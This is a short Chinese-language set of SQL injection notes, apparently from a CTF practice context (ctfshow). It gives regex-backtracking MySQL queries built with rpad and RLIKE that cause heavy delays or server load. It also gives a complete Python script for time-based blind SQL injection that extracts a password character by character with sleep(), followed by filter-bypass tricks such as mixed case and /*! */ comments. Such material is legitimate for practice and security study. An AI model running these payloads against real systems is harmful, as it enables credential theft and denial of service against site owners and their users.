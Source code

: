 		- `select concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b'`
		- `select ((concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')))a) regexp '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b';`

#### 脚本
```python
import requests

url = ""

result = ''
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        payload = f'1=if(ascii(substr((select  password from ctfshow_user5 limit 24,1),{i},1))>{mid},sleep(2),0) -- -'
        try:
            r = requests.get(url + payload, timeout=0.5)
            tail = mid
        except Exception as e:
            head = mid + 1

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```
# Bypass
## 大小写绕过
`SeleCt`
## 双写绕过

## 注释
`/*! */类型的注释，内部的语句会被执行`
